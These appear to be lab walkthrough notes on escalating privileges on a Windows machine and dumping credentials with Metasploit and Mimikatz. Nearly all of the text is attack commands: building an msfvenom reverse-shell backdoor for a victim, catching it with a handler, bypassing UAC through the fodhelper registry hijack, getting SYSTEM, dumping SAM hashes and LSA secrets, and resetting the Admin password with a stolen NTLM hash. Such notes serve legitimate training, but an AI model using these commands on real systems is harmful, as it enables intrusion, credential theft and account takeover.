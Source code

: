 -----------
- **Escalate privileges to gather hashdump using Mimikatz***

Mimikatz is a post exploitation tool that enables users to save and view authentication credentials such as kerberos tickets, dump passwords from memory, PINs, as well as hashes. It enables you to perform functions such as pass-the-hash, pass-the-ticket, and makes post exploitation lateral movement within a network.

[parrot]

	sudo su
	msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Desktop/backdoor.exe
	share with victim machine
	
	msfconsole
	use exploit/multi/handler
	set payload windows/meterpreter/reverse_tcp
	set LHOST 10.10.1.13
	set LPORT 444
	run
	
	[windows]
	access run backdoor.exe
	
	[parrot]
	sysinfo
	getuid -> Windows11\Admin
try to bypass the user account control setting that is blocking you from gaining unrestricted access to the machine.
bypassuac_fodhelper -> This module will bypass Windows 10 UAC by hijacking a special key in the Registry under the current user hive, and inserting a custom command that will get invoked when the Windows fodhelper.exe application is launched. It will spawn a second shell that has the UAC flag turned off.

This module modifies a registry key, but cleans up the key once the payload has been invoked.

	background
	use exploit/windows/local/bypassuac_fodhelper
	set session 1
	set LHOST 10.10.1.13
	set TARGET 0
	exploit
	getsystem -t 1
	getuid   --> NT AUTHORITY\SYSTEM
	load kiwi    -->to load mimikatz.
	help kiwi    -->to view all the kiwi commands.
	lsa_dump_sam   ->o load NTLM Hash of all users.
	lsa_dump_secrets -> Note: LSA secrets are used to manage a system's local security policy, and contain sesnsitive data such as User passwords, IE passwords, service 
	account passwords, SQL 
	passwords etc.
Change the password of **Admin** using the **password_change** module.

	password_change -u Admin -n [NTLM hash of Admin acquired in previous step] -P password
	lsa_dump_sam   --> check the new hash value
	
